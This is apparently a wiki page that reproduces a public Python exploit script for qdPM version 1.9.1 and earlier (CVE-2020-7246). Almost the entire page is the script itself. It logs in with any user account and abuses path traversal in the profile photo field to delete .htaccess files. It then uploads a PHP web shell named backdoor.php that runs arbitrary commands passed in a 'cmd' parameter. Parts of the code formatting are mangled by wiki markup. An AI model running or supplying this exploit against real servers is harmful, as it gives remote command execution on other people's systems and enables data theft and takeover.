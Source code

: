 <languages /> <translate>

影響版本
--------

</translate>

     Version: <=1.9.1

EXP
---

    # Exploit Title: qdPM 9.1 - Remote Code Execution
    # Google Dork: intitle:qdPM 9.1. Copyright © 2020 qdpm.net
    # Date: 2020-01-22
    # Exploit Author: Rishal Dwivedi (Loginsoft)
    # Vendor Homepage: http://qdpm.net/
    # Software Link: http://qdpm.net/download-qdpm-free-project-management
    # Version: <=1.9.1
    # Tested on: Windows 10 (Python 2.7)
    # CVE : CVE-2020-7246
    # Exploit written in Python 2.7
    # Tested Environment - Windows 10
    # Path Traversal + Remote Code Execution

    # Command - qdpm-exploit.py -url http://localhost/ -u user@localhost.com -p password
    # -*- coding: utf-8 -*-
    #!/usr/bin/python

    import requests
    from lxml import html
    from argparse import ArgumentParser

    session_requests = requests.session()

    def multifrm(
       userid,
       username,
       csrftoken_,
       EMAIL,
       HOSTNAME,
       uservar,
       ):
       request_1 = {
           'sf_method': (None, 'put'),
           'users[id]': (None, userid[-1]),
           'users[photo_preview]': (None, uservar),
           'users[_csrf_token]': (None, csrftoken_[-1]),
           'users[name]': (None, username[-1]),
           'users[new_password]': (None, ''),
           'users[email]': (None, EMAIL),
           'extra_fields[9]': (None, ''),
           'users[remove_photo]': (None, '1'),
           }
       return request_1


    def req(
       userid,
       username,
       csrftoken_,
       EMAIL,
       HOSTNAME,
       ):
       request_1 = multifrm(
           userid,
           username,
           csrftoken_,
           EMAIL,
           HOSTNAME,
           '.htaccess',
           )
       new = session_requests.post(HOSTNAME + 'index.php/myAccount/update'
                                   , files=request_1)
       request_2 = multifrm(
           userid,
           username,
           csrftoken_,
           EMAIL,
           HOSTNAME,
           '../.htaccess',
           )
       new1 = session_requests.post(HOSTNAME + 'index.php/myAccount/update'
                                    , files=request_2)
       request_3 = {
           'sf_method': (None, 'put'),
           'users[id]': (None, userid[-1]),
           'users[photo_preview]': (None, ''),
           'users[_csrf_token]': (None, csrftoken_[-1]),
           'users[name]': (None, username[-1]),
           'users[new_password]': (None, ''),
           'users[email]': (None, EMAIL),
           'extra_fields[9]': (None, ''),
           'users[photo]': ('backdoor.php',
                            '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "

"; die; }?\>'

`                       , 'application/octet-stream'),`
`      }`
`  upload_req = session_requests.post(HOSTNAME`
`          + 'index.php/myAccount/update', files=request_3)`

def main(HOSTNAME, EMAIL, PASSWORD):

`  result = session_requests.get(HOSTNAME + '/index.php/login')`
`  login_tree = html.fromstring(result.text)`
`  authenticity_token = \`
`      list(set(login_tree.xpath("//input[@name='login[_csrf_token]']/@value"`
`           )))[0]`
`  payload = {'login[email]': EMAIL, 'login[password]': PASSWORD,`
`             'login[_csrf_token]': authenticity_token}`
`  result = session_requests.post(HOSTNAME + '/index.php/login',`
`                                 data=payload,`
`                                 headers=dict(referer=HOSTNAME`
`                                 + '/index.php/login'))`
`  account_page = session_requests.get(HOSTNAME + 'index.php/myAccount'`
`          )`
`  account_tree = html.fromstring(account_page.content)`
`  userid = account_tree.xpath("//input[@name='users[id]']/@value")`
`  username = account_tree.xpath("//input[@name='users[name]']/@value")`
`  csrftoken_ = \`
`      account_tree.xpath("//input[@name='users[_csrf_token]']/@value")`
`  req(userid, username, csrftoken_, EMAIL, HOSTNAME)`
`  get_file = session_requests.get(HOSTNAME + 'index.php/myAccount')`
`  final_tree = html.fromstring(get_file.content)`
`  backdoor = \`
`      final_tree.xpath("//input[@name='users[photo_preview]']/@value")`
`  print 'Backdoor uploaded at - > ' + HOSTNAME + '/uploads/users/' \`
`      + backdoor[-1] + '?cmd=whoami'`

if __name__ == '__main__':

`  parser = \`
`      ArgumentParser(description='qdmp - Path traversal + RCE Exploit'`
`                     )`
`  parser.add_argument('-url', '--host', dest='hostname',`
`                      help='Project URL')`
`  parser.add_argument('-u', '--email', dest='email',`
`                      help='User email (Any privilege account)')`
`  parser.add_argument('-p', '--password', dest='password',`
`                      help='User password')`
`  args = parser.parse_args()`

`  main(args.hostname, args.email, args.password)`

</pre>
